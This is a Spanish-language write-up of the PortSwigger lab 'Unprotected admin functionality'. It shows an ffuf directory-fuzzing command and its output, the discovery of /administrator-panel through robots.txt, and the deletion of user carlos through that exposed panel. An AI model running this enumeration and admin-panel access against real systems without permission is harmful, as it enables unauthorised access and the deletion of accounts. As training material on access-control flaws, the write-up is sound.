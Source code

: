 ```yaml
---
title: "Unprotected admin functionality"
description: "Laboratorio de Portswigger sobre Access Control Vulnerabilities"
date: 2024-12-04 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - Access Control Vulnerabilities
tags:
  - Access Control Vulnerabilities
  - Unprotected admin functionality
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` tiene un `panel de administración` sin `protección`. Para `resolverlo`, debemos `eliminar` al `usuario` carlos

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Access-Control-Lab-1/image_1.png)

`Fuzzeamos` la `web`, además de hacerlo desde `Burpsuite` podemos usar herramientas como `fuff` desde `consola`

```
# ffuf -c -t 10 -w /usr/share/seclists/Discovery/Web-Content/common.txt -u https://0a13001403de35cd811e201100ae0089.web-security-academy.net/FUZZ                    

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://0a13001403de35cd811e201100ae0089.web-security-academy.net/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 10
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

Login                   [Status: 200, Size: 3133, Words: 1309, Lines: 64, Duration: 53ms]
administrator-panel     [Status: 200, Size: 3034, Words: 1332, Lines: 66, Duration: 58ms]
analytics               [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 57ms]
favicon.ico             [Status: 200, Size: 15406, Words: 11, Lines: 1, Duration: 55ms]
filter                  [Status: 200, Size: 10716, Words: 5062, Lines: 199, Duration: 61ms]
login                   [Status: 200, Size: 3133, Words: 1309, Lines: 64, Duration: 55ms]
logout                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 53ms]
my-account              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 52ms]
robots.txt              [Status: 200, Size: 45, Words: 3, Lines: 3, Duration: 53ms]
```

Si accedemos a `https://0a13001403de35cd811e201100ae0089.web-security-academy.net/robots.txt` veremos una ruta llamada `/administrator-panel`

![](/assets/img/Access-Control-Lab-1/image_2.png)

Si accedemos a `https://0a13001403de35cd811e201100ae0089.web-security-academy.net/administrator-panel` veremos un `panel` `administrativo` desde el cual podemos `borrar` al usuarios `carlos` completando así el `laboratorio`

![](/assets/img/Access-Control-Lab-1/image_3.png)
